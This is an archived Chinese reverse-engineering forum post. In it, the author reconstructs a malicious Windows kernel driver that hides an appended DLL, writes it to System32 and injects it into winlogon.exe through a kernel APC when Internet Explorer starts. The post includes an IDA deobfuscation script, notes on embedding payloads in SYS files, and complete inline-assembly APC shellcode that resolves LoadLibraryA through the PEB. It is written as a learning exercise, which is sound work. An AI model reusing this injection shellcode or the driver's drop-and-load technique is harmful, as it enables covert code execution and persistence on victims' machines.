








# 逆向 `fuck.sys`--编译通过--源码

> 原文：[`www.pediy.com/kssd/pediy10/66156.html`](https://www.pediy.com/kssd/pediy10/66156.html)

**前言：**

一直很向往进入 **Debugman** 论坛的 **RCT** 这个核心团队,但自己水平有限,最后没有过关.

呵呵,不过俺从中学到了很多东西,于是发此帖分享一下学习成果;也顺便请教各位大牛,希望您有时间的话,逆一份更加好的 code.偶逆的这份 code 虽然大致实现了原来驱动的功能,但写的毕竟很粗糙,希望有逆向经验的同学能给予部分提示和指导,偶也能从中总结经验和教训,争取在短时间内提高自己,以便下次再申请加入 `RCT`

**正文:**

`/*...*/`

`* AUTHOR : sudami [sudami@163.com]`

`* TIME : 2008/06/05`

`* Command:`

`* 这份 code 是完成 XIKUG 给的题目：“逆向 fuck.sys，给出源码，编译成功，替换原驱动的功能”`

`* code 已经基本实现了原驱动的功能,部分瑕疵有:`

`* 1. 驱动卸载时候会 BSOD, 和加进来的 DLL 资源有关. 不加 DLL 资源,则可正常加载卸载.`

`* 2. 驱动中包含的 DLL 未用 XOR 加密,故释放 DLL 时不用解密.但解密部分的 code 保留`

`* 3. DLL 加载后,偶没有调用 DeleteFileW 来删除这个 DLL,保留这个功能; 调用 LoadLirary`

`* 经过长久思考,换回原来的硬编码. 动态获取其地址的 code 保留.可运行.`

`* Description:`

`* ------ 原驱动的功能 ------`

`* 1. 驱动入口; 解密出“ImagePath”;在注册表得到自身的全路径;读取自身文件;定位到 SYS 最后一个节的`

`* 结束处;获取一个 DOWRD 的 DLL 文件大小,偏移后开始解密 DLL,将获取的数据存放的申请的非分页内存中;`

`* 写 DLL 到\\SYSTEMROOT\\SYSTEM32\\winlib .dll.`

`* [sudami 注:这里有个小技巧,为防止同名不可删除文件干扰 DLL 的释放,作者进行了判断,winlib0.dll ~ winlib10.dll]`

`* 2. 映射 kernel32.dll 到内存,搜索 EAT 得到个函数的地址-`

`* LoadLibraryA 、GetSystemDirectoryW 、lstrcatW 、DeleteFileA`

`* 3. 进入正常的驱动流程 IoCreateDevice、IoCreateSymbolicLink`

`* 4. 调用 IoCreateNotificationEvent 创建事件对象\\BaseNamedObjects\\UID_1329147602_MIEEvent,`

`* 负责激活等待的系统线程; PsSetCreateProcessNotifyRoutine 检测进程的创建`

`* 5. PsCreateSystemThread 创建线程.它完成的功能如下:`

`* 遍历 ActiveProcessLinks 链表找到 winlogon.exe,从中找一个可插 APC 的线程;初始化 APC,插入之.`

`* 路径为 SYSTEMROOT\\SYSTEM32\\winlib.dll.调用 loadlibrary 来加载这个 DLL.,而后等待事件的触发...`

`* 当检测到 IE 启动时,设置事件对象为受信状态, 激活等待的线程,释放掉 EVENT 占用的内存,再释放掉 MDL.`

`* DLL 加载完成后会被删除.`

`* [sudami 注:原作者这个的 EVENT 估计是和 R3 进行通讯用的,在这里保留其功能]`

`* ------ 总结 ------`

`* 总的来说,驱动的主要功能便是"释放 DLL,插 APC 加载 DLL".`

`* 1. 刚开始调试时不知如何下手,因为驱动加了很多花,IDA 基本看不到内容,而偶第一次接触到驱动加花,一时很头大;`

`* 2. 脑子里想着如何去花,若能动态调试,先不去花也能看看驱动的基本流程了,抱着这个想法,偶拿起不熟悉的 windbg`

`* 双机调试起来,弄了大半会儿效果不好,换用 softice,无奈偶不是很熟悉,再换用 syser,另偶感到郁闷的是 load 该驱动`

`* 总是失败,MS 带反调试???然后暂时放弃了动态调试的方式`

`* 3. 再 google 一看,发现 winhex 或者 IDC 很好去掉.于是开始琢磨起来,无奈编写 IDC 第一次接触,无太多的时间用它来去花,`

`* 索性拿起不怎么熟悉的 winhex,很好很强大; 于是偶拿着 IDA 和 winhex,开始漫长的去花过程,由于偶太菜,去花用了`

`* 2 天时间,而且没有去全,不过此时得到的 IBD 已经很明晰了,偶也从中学到了不少东西;`

`* 4. 此时才开始正式的逆向还原 code 工作.其实有了 F5,只是方便了一点儿,大部分的时间还得自己编写调试 code.断断续续`

`* 的调试了天(期间有专业实习,实验报告,公司实习等,时间不是很充裕),遇到了一个又一个障碍. 比如:`

`* R0 插 APC 加载 DLL 、释放 DLL 到系统目录、加资源到 SYS 文件末尾、驱动加花、...`

`* 5. 好在问题都被一一化解,从中偶又学到了学多偶以前不熟悉的知识.感觉逆向很能锻炼一个人的耐心和解决问题的能力.`

`* ------ 后记 ------`

`* 感谢 XIKUG 给俺这次机会,偶非常希望进入 RCT 这个核心团队; 虽然这次逆的 code 很粗糙,但偶相信以后会越来越熟练,写出来`

`* 的 code 也一定越来越完善.`

`* Copyright (c) 2008 sudami.`

`* Freely distributable in source or binary for noncommercial purposes.`

`* This is not a virus, So take it easy, just for fun.`

`/*...*/`

总结几点：

### 1. 驱动去花

偶碰到的这个驱动，加花代码如下:

```
jz @F
jnz @F 
db 0E8h 

@@:
```

**在 IDA 的图片如下：**





故若用 `winhex`，可先在 IDA 中定位到这段花，复制其 2 进制文件，再到 `winhex` 查找替换为 `nop` 即可。不过这种方式实在是体力活，有去花经验的同学可以编写 IDC 脚本进行去除操作。基本思路如下：

```
#include <idc.idc>

static main()
{
auto i,j,from,size; 
from=0x401000; //起始地址，你指定一下
size=0x100;//扫描数据块大小 
for ( i=0; i < size;i++ )  {  
//查找 0F 82 07 ?? ?? ??，替换 90
   if ((Byte(from)==0x0f)&&(Byte(from+1)==0x82)&&(Byte(from+2)==0x07))
  {
        for(j=0;j<5;j++)
       {
            PatchByte(from,0x90);
            from++;
          }
         continue;
    }
//查找 0F 83 01 ?? ?? ??，替换 90
   if ((Byte(from)==0x0f)&&(Byte(from+1)==0x83)&&(Byte(from+2)==0x01))
  {
       for(j=0;j<5;j++)
       {
            PatchByte(from,0x90);
            from++;
          }
         continue;
    }
      from++;
 }
 Message("\n" + "OK\n");
}
```

### 2. 驱动加载 DLL 资源

和 EXE 类似，因为驱动加载后要释放出资源，所以偶这里有 2 种选择：

A．为 `SYS` 增加一个新节,在新节中添入 `DLL` 资源文件.重新计算校验和
B．在 `SYS` 最后一个节的结束处,即文件末尾添加资源文件.重新计算校验和





偶选择的是第 2 种.插入 `DLL` 资源前,驱动自由 10.KB,加入后就变大了些:



当然,你也可以用 `PE-DIY` 等工具来为 `SYS` 增加新节,注意得**按文件对齐**来分配大小 `SYS` 加载时,读取自身文件,定位到资源处,解密后写入新文件即可.

### 3. 插 APC 加载 DLL

其实和运行 EXE 差不多的原理,只不过把 `winexec` 换成了 `LoadLibraryA(W)`,最好不要用引编码,因为不干净的机器上可能会被安全软件修改.**驱动中获得的函数地址,要放到申请的 MDL 中**,因为 APC 执行时已经到了用户空间,不可能访问驱动中的全局变量.

逆向完后,编译运行,得到 `SYS`,以下是运行效果:







上传的附件

|  || 逆向 `fuck.sys` 专题.rar \[解压密码：pediy\] |

贴一段专业的 LoadDLL 的 APC 的 shellcode 算了~

代码:


```
__declspec(naked)
UserLoadDLL(
  PCHAR  DLLPath,
  PVOID  unused1,
  PVOID  unused2
  )
{
  __asm{
    push  ebp
      mov    ebp, esp
  }
  __asm{
    pushad
      sub    esp, 20 //存放得到的函数地址
      jmp    end
           
start:
        pop    edx                         // 指令表起始地址存放在  esp -> edx
       
      push  ebp//u 保存 下面这段程序用到了 ebp
       
      // ===== 从 PEB 中取得 KERNEL32.DLL 的起始地址 =====
      //
      // 输入:
      // edx => 指令表起始地址 (不需要)
      //
      // 输出:
      // eax => kernel32.dll 起始地址
      // edx => 指令表起始地址
       
      mov    eax, fs:0x30                  // PEB 
      mov    eax, [eax + 0x0c]            // PROCESS_MODULE_INFO
      mov    esi, [eax + 0x1c]    // InInitOrder.flink
      lodsd
      mov    eax, [eax+8]
       
      // ========== 定位 GetProcAddress 的地址 ==========
      //
      // 输入:
      // eax => kernel32.dll 起始地址
      // edx => 指令表起始地址
      //
      // 输出:
      // ebx => kernel32.dll 起始地址
      // eax => GetProcAddress 地址
      // edx => 指令表起始地址
       
      mov    ebx, eax                   // 取 kernel32.dll 的起始地址
      mov    esi, dword ptr [ebx+0x3C]      //u 在 e_lfanew 中得到 pe heAder
      mov    esi, dword ptr [esi+ebx+0x78]    //u export directory rvA
      add     esi, ebx          
      mov    edi, dword ptr [esi+0x20]      //u struct _IMAGE_EXPORT_DIRECTORY 中 AddressOfNames; // RVA from base of image
      add    edi, ebx
      mov    ecx, dword ptr [esi+0x14]      //u AddressOfFunctions; // RVA from base of image
      xor    ebp, ebp
      push    esi
       
search_GetProcAddress:
        push    edi
      push    ecx
      mov    edi,dword ptr [edi]
      add    edi,ebx                  // 把输出函数名表起始地址存人 edi
      mov    esi,edx                  // 指令表起始地址存入 esi
      //mov    ecx,0Eh               // 函数 getprocAddress 长度为 0Eh
      push    0xE
      pop    ecx
      repe    cmps byte ptr [esi],byte ptr [edi]
      je    search_GetProcAddress_ok
       
      pop    ecx
      pop    edi
      add    edi,4  ///
      inc    ebp
      loop  search_GetProcAddress
       
search_GetProcAddress_ok:
        pop    ecx    
      pop    edi
      pop    esi
      mov    ecx, ebp
      mov    eax, dword ptr [esi+24h]      //u AddressOfNameOrdinals; // RVA from base of image
      add    eax, ebx
      shl    ecx, 1
      add    eax, ecx
      xor    ecx, ecx
      mov    cx,  word ptr [eax]
      mov    eax, dword ptr [esi+1Ch]      //AddressOfFunctions; // RVA from base of image
      add    eax, ebx
      shl    ecx, 2
      add    eax, ecx
      mov    eax, dword ptr [eax]
      add    eax, ebx
       
       
      pop    ebp//u 保存
      //--------------------------------------------------------------------
       
      // ============ 调用函数解决 api 地址 ============
      //
      // 输入:
      // ebx =>kernel32.dll 起始地址
      // eax =>GetProcAddress 地址
      // edx =>指令表起始地址
      //
      // 输出:
      // edi =>函数地址 base addr
      // esi =>指令表当前位置
      // edx =>GetProcAddress 地址
       
      mov    edi,edx
      mov    esi,edi
      add    esi,0xE              // 0xE 跳过 1 个字符串"GetProcAddress"
       
      // ============ 解决 kernel32.dll 中的函数地址 ============
      mov    edx,eax              // 把 GetProcAddress 地址存放在 edx     
      push    0x1               // 需要解决的函数地址的个数 硬编码可以节省两个字节
      pop    ecx
      mov    edi, esp  /////////// get some spAce to edi
      call    locator_api_addr   
       
       
      push  DLLPath
      call  dword ptr [edi-4]
      jmp    end_func
       
      //--------------------------------------------------------------------
      // ============ 解决 api 地址的函数 ============
      //
      // 输入参数:
      // ecx 函数个数
      // edx GetProcAddress 地址
      // ebx 输出函数的 dll 起始地址
      // esi 函数名表起始地址
      // edi 保存函数地址的起始地址
       
locator_api_addr:
         
locator_space:
        xor     eax, eax
      lodsb
      test    eax, eax                    // 寻找函数名之间的空格 x00
      jne      locator_space
       
      push    ecx
      push    edx
       
      push    esi                      // 函数名
      push    ebx                      // 输出函数的 dll 起始地址
      call    edx
      pop     edx
      pop     ecx
      stos    dword ptr [edi]
      loop    locator_space
      xor     eax, eax
      ret
      //--------------------------------------------------------------------
       
      // ==================  结束调用  ==================
end:
        call    start
      __emit 'G'
      __emit 'e'
      __emit 't'
      __emit 'P'
      __emit 'r'
      __emit 'o'
      __emit 'c'
      __emit 'A'
      __emit 'd'
      __emit 'd'
      __emit 'r'
      __emit 'e'
      __emit 's'
      __emit 's'
      __emit 0
      __emit 'L'
      __emit 'o'
      __emit 'a'
      __emit 'd'
      __emit 'd'
      __emit 'L'
      __emit 'i'
      __emit 'b'
      __emit 'r'
      __emit 'a'
      __emit 'r'
      __emit 'y'
      __emit 'A'
      __emit 0
       
end_func:
    add esp,20
      popad
  }
  __asm
  {
    mov esp,ebp
    pop ebp
    ret     
  }
}
//--------------------------------------------------------------------
__declspec(naked) UserLoadDLL_end(VOID)
{
  __asm{
    __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
      __emit 0
  }
   

}
```
